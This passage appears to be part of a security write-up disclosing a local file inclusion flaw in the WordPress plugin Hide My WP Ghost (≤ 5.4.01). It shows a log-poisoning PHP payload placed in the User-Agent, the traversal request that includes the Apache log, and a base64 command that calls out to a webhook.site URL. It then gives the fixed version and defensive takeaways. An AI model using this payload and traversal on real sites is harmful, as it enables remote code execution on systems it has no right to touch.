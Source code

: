 ```http
Content-Length: 0
```

**Result**:

{{< figure src="result2.png" caption="Successful LFI => RCE result" >}}

**Explanation**:

```phtml
<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>
```

When visiting the site with a User‑Agent containing the payload above, Apache will log this payload into the access log:

```sh
w41bu1@22NS088:~$ cat /var/log/apache2/other_vhosts_access.log
127.0.1.1:80 127.0.0.1 - - [18/Oct/2025:19:10:08 +0700] "GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1" 403 2844 "-" "Mozilla/5.0 (X11; Ubuntu; <?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0"
```

When `include()` loads a file, PHP will execute any PHP code (`<?php ?>`) contained in the file before returning. The payload is Base64-encoded and decoded at include time with `base64_decode` to avoid escaping issues with quotes (`"` → `\"`) when the logger writes it. The decoded command becomes:

```sh
curl -I 'https://webhook.site/bac7e163-b475-4323-a315-acd010359640'
```

Finally, `system()` runs this command and returns its output.

> [!WARNING]
> Note: although `base64_decode` may be blocked by the plugin, Apache logged the payload before the plugin processed it; the Base64 string was still recorded in the log.

### Conclusion

Hide My WP Ghost version **≤ 5.4.01** allows LFI because the plugin reconstructs a path and then `include()`s it without canonicalization/whitelisting. By combining log‑poisoning and a payload containing `/wp-activate.php/?`, an attacker can escalate LFI to RCE in some configurations. The issue is fixed in **5.4.02** by sanitizing the URL before returning.

### Key takeaways

* **Do not directly include** data from requests.
* Use **realpath() / basename() / whitelist / base_dir checks** before including.
* `sanitize_text_field()` is not sufficient to prevent traversal.
* Log poisoning (User‑Agent, Referer…) can create an inclusionable payload source — do not log raw content that might later be included.
* Fixes must combine: sanitize + canonicalize + directory restriction + control over log write permissions.
